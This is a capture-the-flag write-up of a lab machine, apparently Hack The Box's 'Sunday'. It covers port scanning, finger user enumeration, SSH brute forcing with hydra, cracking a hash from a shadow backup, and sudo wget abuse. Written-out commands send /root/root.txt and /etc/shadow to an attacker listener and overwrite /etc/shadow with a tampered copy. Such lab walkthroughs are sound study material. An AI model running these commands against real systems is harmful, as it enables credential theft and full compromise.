









# Index
1. [Enumeration](#enumeration)
	<br>
	1.1 [Nmap](#nmap)
	</br>
	1.1 [Enumerating Finger](#Enumerating-Finger)
	
2. [Lateral movement](#Lateral-movement)
3. [Privesc](#privesc)

#### Tags
<details markdown='1'>
<summary>Click to get a hint</summary> 
<ul>
	<li>finger protocol</li>
	<li>scanning all ports</li>
	<li>hydra</li>
	<li>linux password storage</li>
</ul>
</details>

### Enumeration
**IP Address** 10.10.10.76 
#### Nmap
First of all, in this machine is *very* important to run a scan through all the ports, as there are some of them that are not included in the common ports that *nmap* scans by default.

After running a full scan, the results are:
```shell
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-06 06:56 EDT
Nmap scan report for 10.10.10.76
Host is up (0.065s latency).
Not shown: 65530 closed ports
PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
22022/tcp open  unknown
48574/tcp open  unknown
63699/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 2001.36 seconds
```

Once we have this preview of all the ports that are open, I usually run a more detailed scan such as:

```shell
sudo nmap -sC -sV -O -Pn -p 79,111,22022,48574,63699 10.10.10.76
[sudo] password for kali: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-06 07:33 EDT
Nmap scan report for 10.10.10.76
Host is up (0.067s latency).

PORT      STATE SERVICE VERSION
79/tcp    open  finger  Sun Solaris fingerd
|_finger: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind 2-4 (RPC #100000)
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
48574/tcp open  rpcbind
63699/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|phone
Running: Linux 2.4.X|2.6.X, Sony Ericsson embedded
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.74 seconds
```

And now its time to start working.

#### Enumerating Finger
Finger is a protocol that allows us to obtain information from users. After a little research, I found the following [script](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) to enumerate users. The results were as follow:



Here I focused at the user *sammy* at first, but after a little research, I found the user *sunny* interesting as well. 
With a little [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-finger) and some other blogs, I found some commands to go on enumerating this two users:



User *sunny* got a similar output, so I started considerating both users as candidates.

Once here, I spent a lot of time trying to execute commands by *finger* and trying to get some useful information from the other ports. While I was doing this, I left two hydra scripts trying to bruteforce the *ssh* (as it was an easy CTF machine, it made sense to do a little bruteforcee). When I hadn´t found nothing on the other branch of the research, I surprisingly founded the following result:

```shell
hydra -l sunny -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.76:22022 
```



So here I was with an ssh accesss. Remember to specify the port 22022 to establish the connection.

FAQ:
In order to fix the following message when trying to establish an ssh connections:

```shell
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```
The steps are as follow:
```shell
1. Edit the file /etc/ssh/ssh_config adding to the last line
KexAlgorithms diffie-hellman-group1-sha1

2. ssh-keygen -A
```

Once this is done, the ssh connection will be allowed.


### Lateral movement

Once I had a shell as the user sunny, I confirmed that there was another user named sammy. And this was the user that was needed in order to get the flag.

After going around for a while through different directories, I found an interesting file at the route:
```shell
sunny@sunday:~$ ls /backup/                                                     
agent22.backup  shadow.backup 
```

When I read the file, I found a hash, so I saved it in my machine to crack it with john the ripper.
```shell
cat sam.hash                                                                   
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
```
After a few seconds, I already got the password 




### Privesc

It is possible to log in with the user sammy by ssh and running the command *su sammy* in the running session as sunny. However, this command is a little bit tricky, as you change the user but the prompt doesn´t change.
I prefered to establish a new ssh session to get the flag and start the privesc:



The first command I usually run in order to perform a privilege escalation in linux is 

```shell
sudo -l
```
With this command, we can discover if the user can run something as *sudo*, as you can see in the following results:
```shell
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
sammy@sunday:~$ 
```

Once we know we can run *wget* as sudo, is time to visit [gtfobins](https://gtfobins.github.io/)
This webpage will alllow us to know what should we execute in order to get advantage of this configuration and get a privesc.



In this case, we have a possibility to send and receive files.

My first though was to send to my machine the file */root/root.txt*. 
- Kali:
```shell
nc -lvp 9001
```
- Sunday:
```shell
sudo /usr/bin/wget --post-file=/root/root.txt http://10.10.16.9:9001
```
This worked, but I was more ambitious and wanted to get a shell as root.

In order to achieve this, I got the following idea:
If I can send and write files as root, I could send the */etc/shadow* to my machine, tamper it writing the hash of the user *sammy* at the *root* field and then I´d be able to get a shell as root with a simple *sudo su* + sammy' s password.

It worked with the following commands:
- Kali:
```shell
nc -lvp 9001
```
- Sunday:
```shell
sudo /usr/bin/wget --post-file=/etc/shadow http://10.10.16.9:9001
```
Here, I got the following file:



I edited the file to delete all the http request input and to tamper the hash, the result was this:



Once done, I established a server in my machine in order to get the new shadow file and save it at the original path */etc/shadow*

- Sunday:
 ```shell
sudo /usr/bin/wget http://10.10.16.9:8000/shadow -O /etc/shadow
```




And with that last step, I got a root shell. I don´t really know if that was the intended way to do it, but it worked for me :)

Please, feel free to [contact](https://twitter.com/sergioframi)  me if you want to ask or share anything about this machine. Thanks a lot for reading! 


